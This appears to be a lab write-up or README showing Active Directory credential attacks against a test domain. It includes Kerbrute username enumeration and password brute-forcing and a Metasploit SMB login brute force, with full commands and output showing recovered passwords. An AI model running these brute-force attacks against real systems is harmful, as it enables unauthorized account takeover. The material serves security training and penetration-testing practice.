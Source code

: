 


## Kerbrute

Brute force usernames from DC (There is no log for this scan)


	┌──(kali㉿kali)-[~/Desktop/ADAbuse]
	└─$ ./kerbrute userenum --dc valhalla.local -d valhalla.local /usr/share/wordlists/metasploit/unix_users.txt

		__             __               __     
	   / /_____  _____/ /_  _______  __/ /____ 
	  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
	 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
	/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

	Version: v1.0.3 (9dad6e1) - 08/19/21 - Ronnie Flathers @ropnop

	2021/08/19 10:47:44 >  Using KDC(s):
	2021/08/19 10:47:44 >   valhalla.local:88

	2021/08/19 10:47:44 >  [+] VALID USERNAME:       administrator@valhalla.local
	2021/08/19 10:47:44 >  Done! Tested 167 usernames (1 valid) in 0.065 seconds



Bruteforce password for single user (There is no log for this scan)

	┌──(kali㉿kali)-[~/Desktop/ADAbuse]
	└─$ ./kerbrute bruteuser -d valhalla.local --dc valhalla.local 500.txt testuser   

		__             __               __     
	   / /_____  _____/ /_  _______  __/ /____ 
	  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
	 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
	/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

	Version: v1.0.3 (9dad6e1) - 08/19/21 - Ronnie Flathers @ropnop

	2021/08/19 10:46:17 >  Using KDC(s):
	2021/08/19 10:46:17 >   valhalla.local:88

	2021/08/19 10:46:18 >  [+] VALID LOGIN:  testuser@valhalla.local:Pass123!
	2021/08/19 10:46:18 >  Done! Tested 500 logins (1 successes) in 1.019 seconds


## Metasploit

	msf6 auxiliary(scanner/smb/smb_login) > set pass_file pword.txt
	pass_file => pword.txt
	msf6 auxiliary(scanner/smb/smb_login) > run

	[*] 192.168.200.100:445   - 192.168.200.100:445 - Starting SMB login bruteforce
	[-] 192.168.200.100:445   - 192.168.200.100:445 - Failed: 'valhalla.local\administrator:admin',
	[-] 192.168.200.100:445   - 192.168.200.100:445 - Failed: 'valhalla.local\administrator:password',
	[-] 192.168.200.100:445   - 192.168.200.100:445 - Failed: 'valhalla.local\administrator:s3cr3t',
	[-] 192.168.200.100:445   - 192.168.200.100:445 - Failed: 'valhalla.local\administrator:12345',
	[+] 192.168.200.100:445   - 192.168.200.100:445 - Success: 'valhalla.local\administrator:Pass123!' Administrator
	[*] valhalla.local:445    - Scanned 1 of 1 hosts (100% complete)
	[*] Auxiliary module execution completed
	